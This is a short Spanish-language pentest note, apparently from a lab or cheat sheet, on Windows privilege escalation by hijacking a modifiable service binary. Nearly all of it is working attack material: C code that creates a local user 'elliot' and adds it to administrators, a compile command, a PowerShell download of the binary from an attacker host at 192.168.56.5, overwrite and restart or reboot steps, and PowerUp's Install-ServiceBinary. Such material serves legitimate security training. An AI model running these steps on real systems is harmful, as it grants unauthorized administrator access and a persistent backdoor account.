 ```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user elliot Password123! /add");
  i = system ("net localgroup administrators elliot /add");
  
  return 0;
}
```

###### Compilamos el código

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
###### Transferimos el binario a la máquina víctima.

```powershell
iwr -uri http://192.168.56.5/adduser.exe -Outfile adduser.exe
```

###### Movemos el binario a la ruta correspondiente

```powershell
move .\adduser.exe "C:\Ruta\al\binario\<binario>"
```

###### Ejecución

```powershell
net stop <SERVICE>
net start <SERVICE>
```

Alernativamente si no tenemos privilegios para reiniciar el servicio, podemos comprobar si el servicio se inicia al iniciar el sistema y si tenemos la capacidad para reiniciar la máquina.

```powershell
whoami /priv
```

Deberíamos ver el privilegio `SeShutdownPrivilege`

Por ultimo ejecutamos:

```powershell
shutdown /r /t 0
```

###### PowerUp

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '<SERVICE>'
```

